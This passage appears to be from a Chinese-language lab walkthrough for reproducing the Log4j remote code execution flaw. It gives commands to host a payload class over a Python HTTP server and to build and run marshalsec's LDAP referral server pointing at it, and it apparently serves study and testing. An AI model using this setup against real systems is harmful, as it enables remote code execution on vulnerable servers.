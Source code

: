 ### 编译

![image-20211210210755065](log4jrce/image-20211210210755065.png)

### 开启http服务

``` sh
python3 -m http.server 8888
```

![image-20211210210848125](log4jrce/image-20211210210848125.png)

### 到一个新的文件夹准备服务

``` sh
git clone git@github.com:mbechler/marshalsec.git
```

### 打包

``` sh
mvn clean package -DskipTests
```

### 上服务

``` sh
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
```

![image-20211210211207737](log4jrce/image-20211210211207737.png)
